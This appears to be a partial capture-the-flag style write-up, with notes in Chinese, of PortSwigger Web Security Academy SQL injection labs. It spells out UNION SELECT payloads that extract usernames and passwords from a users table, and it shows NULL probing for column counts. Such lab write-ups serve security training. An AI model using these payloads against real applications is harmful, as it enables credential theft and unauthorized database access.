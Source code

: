 ## Lab: SQL injection UNION attack, retrieving data from other tables
![image](https://hackmd.io/_uploads/SkYzb2GYT.png)
https://0a3b0035040e86dd80a79e3400ce00cb.web-security-academy.net/
![image](https://hackmd.io/_uploads/r19Ib3GK6.png)

### Solution
> [!NOTE]
> :brain: 思考邏輯:\
>題目提示database存在不同users table，column存在username & password，使用administrator登入。因此使用UNION SELECT from users，得到administrator與密碼。

#### /filter?category=Accessories'+UNION+SELECT+'chw','dev'--
![image](https://hackmd.io/_uploads/H1OcZhMta.png)
![image](https://hackmd.io/_uploads/HJzo-2zFa.png)
#### /filter?category=Accessories'+UNION+SELECT+username,+password+FROM+users--
![image](https://hackmd.io/_uploads/BJWgz2GFp.png)
### Solved
LOGIN
![image](https://hackmd.io/_uploads/r1KMfhGt6.png)
![image](https://hackmd.io/_uploads/SJIHf3MF6.png)

## Lab: SQL injection UNION attack, retrieving multiple values in a single column
![image](https://hackmd.io/_uploads/HJcIMnfFT.png)
https://0aa600d20347897d8079625c00720016.web-security-academy.net/
![image](https://hackmd.io/_uploads/Bk2FM2zF6.png)

### Solution
> [!NOTE]
> :brain: 思考邏輯:\
>題目提示與上提相同，DB存在不同users table，column存在username & password，標題提到 **multiple values in a single column**。收先塞入NULL確認column數量，確認後，Cheatsheet 中提到可以使用 'foo'||'bar' 將multiple strings串成single string，得到administrator與密碼。

#### 測試 /filter?category=Pets'+UNION+SELECT+'chw','dev'--
> Internal Server Error 確實不符
#### /filter?category=Pets'+UNION+SELECT+NULL,'chw'--
![image](https://hackmd.io/_uploads/BJAQX2zKa.png)
● [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
![image](https://hackmd.io/_uploads/BkI2XhfKa.png)
